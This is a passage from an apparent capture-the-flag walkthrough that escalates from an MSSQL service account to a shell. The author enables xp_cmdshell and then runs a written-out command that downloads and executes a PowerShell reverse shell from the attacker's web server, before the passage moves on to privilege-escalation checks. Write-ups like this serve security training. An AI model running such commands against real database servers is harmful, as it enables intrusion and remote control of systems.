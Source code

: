 ## Shell as mssql-svc
Since **mssql-svc** is the SQL managing account, I had a thought that it is gonna have more privilege compared to **reporting**.

I checked the privilege by typing in `help` and mssql-svc had prvilege for **xp_cmdshell**:

![](https://i.imgur.com/ADm124T.png)


I enabled **xp_cmdshell**:

`enable_xp_cmdshell` & `RECONFIGURE`

![](https://i.imgur.com/zDNomDR.png)


Now I can see that I can execute commands:


![](https://i.imgur.com/90dMVe3.png)


### Reverse Shell

To spawn reverse shell, I prepared nishang's **Invoke-PowerShellTcp.ps1** on my attacking directory and started python HTTP server.

Using the command below, I downloaded and executed reverse shell script toward my Kali listener:

`EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.17:8000/ps-rev.ps1") | powershell -noprofile'`

![](https://i.imgur.com/ScVyR6x.png)


Now on my local netcat listener, I have shell as mssql-svc:

![](https://i.imgur.com/NaBRupU.png)




## Privesc: mssql-svc to Administrator

I checked for privileges **mssql-svc** had and I saw **SeImpersonatePrivilege** which is vulnerable to Juicy Potato attack:

`whoami priv`

![](https://i.imgur.com/dz264SE.png)


Unfortunately, Windows Server 2019 is not vulnerable to JuicyPotato Attack so I moved on.

![](https://i.imgur.com/PUr1cOX.png)


### PowerUp.ps1
